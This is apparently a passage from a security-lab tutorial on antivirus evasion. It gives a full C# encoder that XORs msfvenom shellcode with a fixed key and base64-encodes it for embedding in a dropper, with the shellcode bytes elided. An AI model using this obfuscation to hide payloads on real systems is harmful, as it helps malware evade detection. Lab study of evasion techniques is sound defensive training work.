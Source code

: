 ### The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at C:\Tools\CS Files\Encryptor.cs):

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the `buf` variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

![task8-terminal6](./images/task8-terminal6.png)
